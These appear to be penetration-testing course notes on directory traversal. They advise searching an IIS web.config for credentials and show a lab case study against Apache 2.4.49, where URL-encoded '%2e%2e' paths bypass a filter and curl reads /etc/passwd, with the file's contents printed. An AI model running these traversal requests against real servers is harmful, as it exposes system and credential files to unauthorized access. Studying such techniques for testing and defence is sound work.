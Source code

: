 On an IIS Web Server, check the configuration file:

`C:\inetpub\wwwroot\web.config`

For usernames and passwords. 

Note:  Always try both forward slashes and backslashes when examining a potential directory traversal vulnerability in a web application running on Windows.

### Encoding Special Characters

Another case study:

Using "../" to leverage the Directory Traversal vulnerability in Apache 2.4.49

```hlt:1,12
kali@kali:/var/www/html$ curl http://192.168.50.16/cgi-bin/../../../../etc/passwd

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>


kali@kali:/var/www/html$ curl http://192.168.50.16/cgi-bin/../../../../../../../../../../etc/passwd

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
```
This attempt is unsuccessful because web app is likely filtering out `../`characters. 

Let's use URL Encoding to bypass this filter. 

Using encoded dots `%2e` for Directory Traversal

```hlt:1
kali@kali:/var/www/html$ curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
alfred:x:1000:1000::/home/alfred:/bin/bash
```
Successful attack. 

